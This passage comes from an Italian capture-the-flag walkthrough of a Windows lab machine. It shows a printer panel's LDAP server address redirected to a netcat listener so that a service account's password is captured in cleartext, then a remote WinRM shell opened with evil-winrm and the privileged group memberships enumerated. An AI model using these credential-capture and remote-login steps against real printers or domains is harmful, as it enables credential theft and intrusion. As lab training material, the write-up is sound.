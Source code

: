 Proviamo a modificare le informazioni. La password non viene modificata, ne la porta. Proviamo allora con il **server address**.

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $sudo nc -lnvp 389
[sudo] password for dua2z3rr: 
Listening on 0.0.0.0 389
Connection received on 10.10.11.108 62091
0*`%return\svc-printer�
                       1edFg43012!!
```

Abbiamo ottenuto la password!

### WinRM

WinRM è presente sull'host nemico (mostrato da nmap). Connettiamoci usando `evil-winrm`

```shell
┌─[✗]─[dua2z3rr@parrot]─[~]
└──╼ $evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-printer\Documents>
```

Prendiamo la user flag.

## Shell come svc-printer

Enumeriamo il proprio utente, come di routine.

```shell
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
```